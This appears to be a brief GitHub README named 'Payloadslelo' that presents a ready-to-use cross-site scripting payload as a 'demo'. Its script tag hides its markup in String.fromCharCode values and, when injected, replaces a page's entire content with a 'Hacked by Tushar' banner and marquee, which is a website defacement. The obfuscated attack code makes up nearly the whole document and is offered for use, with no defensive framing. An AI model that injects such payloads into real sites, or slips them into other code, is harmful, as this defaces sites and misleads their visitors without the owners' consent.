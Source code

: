 # Payloadslelo
MLVTEC Demo Payload


Here is the payload

```<script>
    document.documentElement.innerHTML = String.fromCharCode(
        60, 104, 49, 62, 72, 97, 99, 107, 101, 100, 32, 98, 121, 32, 84, 117, 115, 104, 97, 114, 60, 47, 104, 49, 62, 
        60, 109, 97, 114, 113, 117, 101, 101, 62, 72, 97, 99, 107, 101, 100, 32, 98, 121, 32, 84, 117, 115, 104, 97, 114, 60, 47, 109, 97, 114, 113, 117, 101, 101, 62
    );
</script>
